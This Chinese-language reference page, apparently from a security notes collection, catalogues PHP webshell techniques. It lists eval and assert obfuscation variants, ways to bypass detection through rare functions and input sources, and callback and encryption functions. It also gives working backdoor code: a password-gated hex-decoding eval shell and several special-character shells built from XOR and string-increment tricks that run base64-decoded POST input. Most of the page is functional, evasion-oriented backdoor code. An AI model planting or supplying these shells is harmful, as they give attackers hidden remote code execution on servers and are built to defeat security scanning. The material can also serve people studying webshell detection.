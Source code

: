 WebShell
================================

常见变形
--------------------------------
- GLOBALS
    - ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
    - ``eval($_FILE['name']);``
- 拆分
    - ``eval(${"_PO"."ST"} ['sz']);``
- 动态函数执行
    - ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
    - ``$a=$_GET['a'];$a($_GET['b']);``
- create_function
    - ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- 变形
    - str_replace(" ", "e v a l")
- 进制转化
    - ``"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"``
- 进制运算
    - ``("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");``
- 自增运算
    - ``$a="a";$a++;``
- 强制类型转换
    - ``$a='';$a.=[]; // Array``
- 利用文件名
    - ``__FILE__``
- 注释
    - ``$a="e"."v"./*-/*-*/"a"./*-*/"l";``
- 反射
    - ``ReflectionFunction``

Bypass
--------------------------------
- 基于少见函数
    - ``mb_eregi_replace('.*',$_GET[1],'','e');``
- 基于污染传播
    - ``putenv($_GET["c"]);eval(getenv('path'));``
- 基于少见源
    - ``$a = filter_input(INPUT_GET,'c');``
    - ``eval(end(getallheaders()));``

字符串变形函数
--------------------------------
- str_replace
- str_rot13
- strtok
- strtolower
- strtoupper
- strtr
- substr
- substr_replace
- trim
- ucfirst
- ucwords

回调函数
--------------------------------
- array_filter
- array_map
- array_reduce
- array_walk
- array_walk
- array_walk_recursive
- call_user_func
- call_user_func_array
- filter_var
- filter_var_array
- register_tick_function
- registregister_shutdown_function
- uasort
- uksort

加解密函数
--------------------------------
- mcrypt_encrypt
- openssl_encrypt

其他执行方式
--------------------------------
- FFI
- SimpleXML
- SimpleXMLElement

自定义函数
--------------------------------
使用自定义的加解密函数，在一定程度上可以绕过一些防护软件的查杀，下面的代码是一个基于十六进制的执行的简单例子。

.. code:: php

    $string = '';
    $password = 'password';
    if(isset($_POST[$password])){
        $hex = $_POST[$password];
        for($i = 0; $i < strlen($hex) - 1; $i += 2) {
            $string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
        }
    }
    eval($string);

特殊字符Shell
--------------------------------
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

.. code:: php

    <?=`{${~"\xa0\xb8\xba\xab"}[~"\xa0"]}`;

.. code:: php

    @$_++;
    $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
    @${$__}[!$_](${$__}[$_]);


.. code:: php

    $_=[];
    $_=@"$_"; // $_='Array';
    $_=$_['!'=='@']; // $_=$_[0];
    $___=$_; // A
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__; // S
    $___.=$__; // S
    $__=$_;
    $__++;$__++;$__++;$__++; // E 
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $___.=$__;
    $____='_';
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $____.=$__;

    $_=$$____;
    $___(base64_decode($_[_]));
